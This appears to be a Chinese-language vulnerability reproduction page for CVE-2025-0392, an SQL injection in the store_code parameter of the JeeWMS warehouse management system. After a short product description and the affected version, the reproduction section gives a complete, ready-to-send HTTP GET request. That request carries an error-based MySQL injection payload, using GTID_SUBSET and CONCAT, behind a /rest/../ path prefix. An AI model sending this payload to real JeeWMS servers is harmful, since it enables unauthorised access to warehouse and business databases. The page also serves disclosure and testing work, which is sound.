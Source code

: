 **漏洞介绍**



![图片](JeeWMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%BC%8F%E6%B4%9ECVE-2025-0392.assets/640.webp)

JeeWMS是中国华壹（JeeWMS）公司的一个基于 JAVA 的仓库管理系统。JeeWMS基于JAVA的智能仓储管理系统（支持3PL（三方物流）和厂内物流），包含PDA端和WEB端，功能涵盖WMS（仓库管理系统），OMS（订单管理系统），BMS（财务管理系统），TMS（运输管理系统），成功应用于多家国内知名大客户，客户群体：冷链，干仓，快消品，汽车主机厂和配件厂等行业。

JeeWMS 20241229及之前版本存在注入漏洞，该漏洞源于参数store_code存在SQL注入。

![Image](JeeWMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%BC%8F%E6%B4%9ECVE-2025-0392.assets/640-1747620976177-1.webp)



**0x02影响版本**

Jeewms==20241229

![图片](JeeWMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%BC%8F%E6%B4%9ECVE-2025-0392.assets/640-1747620976178-2.webp)

![Image](JeeWMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%BC%8F%E6%B4%9ECVE-2025-0392.assets/640-1747620976177-1.webp)



**0x03漏洞复现**

1.访问漏洞环境

![图片](JeeWMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%BC%8F%E6%B4%9ECVE-2025-0392.assets/640-1747620976178-3.webp)

2.对漏洞进行复现

 **POC** 

漏洞复现

```yaml
GET /rest/../graphReportController.do?datagridGraph&configId=CWSYL&store_code=1%27+AND+GTID_SUBSET%28CONCAT%280x7178627a71%2C%28SELECT+%28ELT%284503%3D4503%2C1%29%29%29%2C0x717a6a6b71%29%2C4503%29--+wnMN HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive


```

   执行sql语句，通过响应报错判断漏洞存在。

![图片](JeeWMS%E7%B3%BB%E7%BB%9FSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E6%BC%8F%E6%B4%9ECVE-2025-0392.assets/640-1747620976178-4.webp)